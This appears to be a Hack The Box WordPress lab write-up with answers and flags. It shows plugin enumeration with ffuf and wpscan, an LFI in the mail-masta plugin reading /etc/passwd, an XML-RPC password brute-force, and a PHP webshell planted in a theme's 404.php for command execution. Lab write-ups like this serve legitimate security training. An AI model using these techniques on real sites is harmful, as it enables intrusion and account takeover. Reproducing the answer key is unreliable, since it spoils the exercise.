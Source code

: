 # Directory Indexing

Answer: HTB{3num3r4t10n_15_k3y}

Explanation: Enumerate:
Command: ffuf -u "http://94.237.54.116:34546/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt

Enumeration: http://94.237.54.116:34546/wp-content/plugins/mail-masta/inc/flag.txt

# Login

Answer: 80

Explanation: 
```
POST /xmlrpc.php HTTP/1.1
Host: 94.237.54.116:34546
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

# WPScan Enumeration

Answer: 1.5.34

Explanation:  Command: wpscan --url http://94.237.59.197:43174/  --plugins-version-detection mixed

# Exploting a Vulnerable Plugin (LFI)

Answer: sally.jones

Explanation: URL: view-source:http://94.237.59.197:43174//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

# Attacking WordPress Users

Explanation: wpscan --password-attack xmlrpc -t 20 -U roger  -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt --url http://94.237.59.197:43174/

# RCE via Theme Editor

Answer: HTB{rc3_By_d3s1gn} 

Explanation: 
Put system($_GET['cmd']); this to the file Theme Edits to the page 404.php

Access: http://94.237.59.197:43174/wp-content/themes/twentyseventeen/404.php?cmd=cat%20../../../../../../home/wp-user/flag.txt

# Skills Assessment

Identify the WordPress version number.
5.1.6
+ 3  Identify the WordPress theme in use.
twentynineteen
+ 3  Submit the contents of the flag file in the directory with directory listing enabled.
HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
+ 1  Identify the only non-admin WordPress user. (Format: <first-name> <last-name>)
Charlie Wiggins
+ 1  Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
HTB{unauTh_d0wn10ad!}
+ 1  What is the version number of the plugin vulnerable to an LFI?
1.1.1
+ 1  Use the LFI to identify a system user whose name starts with the letter "f".
frank.mclane
+ 1  Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.
HTB{w0rdPr355_4SS3ssm3n7}
